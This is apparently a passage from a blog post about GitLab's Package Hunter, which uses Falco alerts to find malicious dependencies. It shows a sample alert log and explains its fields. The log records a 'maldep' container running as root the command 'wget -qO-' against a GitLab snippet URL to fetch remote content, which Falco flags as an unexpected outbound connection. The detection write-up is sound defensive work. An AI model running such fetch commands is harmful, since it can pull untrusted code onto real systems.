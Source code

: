 ```
            "container.name" : "some-container-633414e2-24f2-412a-811f-c37131ff2c61.tgz",
            "evt.time" : "16:35:16.457772674"
         },
         "priority" : "NOTICE",
         "rule" : "Unexpected outbound connection destination"
      },
      {
         "hostname" : "vagrant",
         "priority" : "NOTICE",
         "rule" : "Unexpected outbound connection destination",
         "output_fields" : {
            "evt.time" : "16:35:16.490784795",
            "container.image.repository" : "maldep",
            "proc.cmdline" : "wget -qO-
https://gitlab.com/snippets/1890615/raw",
            "container.name" :
"Some-container-633414e2-24f2-412a-811f-c37131ff2c61.tgz",
            "fd.name" : "172.17.0.2:48644->172.65.251.78:443",
            "container.id" : "c62400ffae4a",
            "user.name" : "root"
         },
         "output" : "16:35:16.490784795: Notice Disallowed outbound
connection destination (command=wget -qO- https://gitlab.com/snippets/1890615/raw
connection=172.17.0.2:48644->172.65.251.78:
         "source" : "SYSCALL",
         "time" : {
            "seconds" : "1637339716",
            "nanos" : 490784795
         }
      },
      …
   ]
}
```


As you saw, the output from the previous command recalls the logs generated by Falco. These are retrieved from the Falco service by the Package Hunter application using the [Falco gRPC API](https://falco.org/docs/grpc/).
As an example, from this snippet we can obtain interesting information like: 
- Which rule was triggered: `Unexpected outbound connection destination` 
- What command generated it: `wget ...` 
- To which host it tries to connect: `172.65.251.78:443` 
and many other different items, always depending on the triggered rule.

The Falco rules that were triggered during our test are completely customisable. Every time new rules are added to Falco, they also extend the range of issues recognised by Package Hunter.


### Using Falco to secure all the development cycle

Package Hunter is one open source project that uses Falco, but it is not the only project in GitLab that uses it. 
